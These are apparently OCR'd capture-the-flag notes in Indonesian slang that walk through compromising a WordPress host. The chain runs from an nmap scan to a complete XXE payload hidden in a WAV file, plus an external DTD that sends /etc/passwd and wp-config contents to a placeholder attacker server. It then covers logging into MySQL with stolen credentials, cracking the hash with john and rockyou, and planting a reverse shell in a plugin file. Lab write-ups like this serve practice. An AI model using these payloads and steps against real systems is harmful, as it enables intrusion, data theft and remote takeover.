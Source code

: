 1. scan nmap -> 22 80 3306 kebuka
2. fuzz ada wp-admin -> login pake creds kayak di intro
3. wpscan cari aja exploit versinya di gugel
4. run aja:  echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://YOURSEVERIP:PORT/NAMEEVIL.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
5. nanti kalau udah baru buat  NAMEEVIL.dtd :
6. <!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://YOURSERVERIP:PORT/?p=%file;'>" >
7. nyalain python server di file dtd tadi terus upload .wav tadi ke media wp
8. nah nanti ada response -> buat file decode.php: <?php echo zlib_decode(base64_decode('base64here')); ?>
9. masukin semua response tadi yang value tapi ?p=inimasukin
10. nah keliatan dah /etc/passwd nya -> sekarang ubah aja resource nya yg di NAMEEVIL -> misal /var/www/html/wp-config 
11. keliatan db db usernya -> masuk mysql kesitu aja -> mysql -h iptarget -u username -p -> masukin aja
12. select nanti di id 1 ada creds -> ambil aja encrypted pass nya
13. pake john -> john pass.txt --wordlist=/rockyou
14. ketemu pass nya -> cocokin ama uname nya -> login ke wp admin lagi -> ke plugins editor 
15. explore aja nanti ada hello.php -> cara akses ke -> ip/wp-content/plugins/hello.php
16. ubah source code nya jadi revshell 
17. nc -> klaim flag
